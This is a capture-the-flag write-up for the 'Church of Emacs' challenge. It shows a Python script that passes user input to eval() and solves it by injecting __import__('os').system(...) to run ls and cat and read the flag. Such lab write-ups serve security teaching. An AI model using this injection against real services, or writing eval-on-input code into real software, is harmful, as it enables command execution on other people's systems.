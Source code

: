 Title: Church of Emacs

Description:

```
halp hoaw 2 eksit vim :<

nc alpha.8059blank.ml 7001
nc beta.8059blank.ml 7001

Author: Lucas
```

Given hint: \_\_import__ is a very cool builtin btw

Given file: [emacs.py](https://github.com/Coder-Here/HACK-AC-2022-CTF/blob/main/Misc/Church%20of%20Emacs/emacs.py "emacs.py")

![image](https://user-images.githubusercontent.com/63996033/199922445-52bc1848-d6d3-4a51-9f91-cbb15bfc45d2.png)

I was the first one to solve this yay!

It suggests that we use [\_\_import__ exploit using eval() function vulnerability](https://stackoverflow.com/questions/59519289/python-running-reverse-shell-inside-eval) which can be done. 

emacs.py:

```
print("Hello! Hope you are a vim fan!")

exits = ["q", "q!", "x", "wq", "wq!", "x!"]

while True:
    print(':', end='')
    inp = input()
    if inp in exits:
        print("This isn't vim sadly...")
        continue
    try:
        print(eval(f'exit({inp})'))
    except Exception as e:
        print(e)
```

We can use the exploit to run shell commands because of the vulnerable eval() function.

Let's open the application using netcat first. 

![image](https://user-images.githubusercontent.com/63996033/197686789-cce64da2-4a9e-4651-b443-ea0afc76759a.png)

We see that we can run shell commands using this technique.

![image](https://user-images.githubusercontent.com/63996033/197686873-19d60f7d-8591-43ad-90cf-17b260c652dd.png)

```__import__('os').system('<shell command>')```

The first shell command we can do is 'ls' to list all files in the directory, then 'cat' open the flag file.

![image](https://user-images.githubusercontent.com/63996033/197687098-bf8cc952-65e1-4f6a-b41e-706ddb75a84a.png)

Flag: ACSI{vivivi}

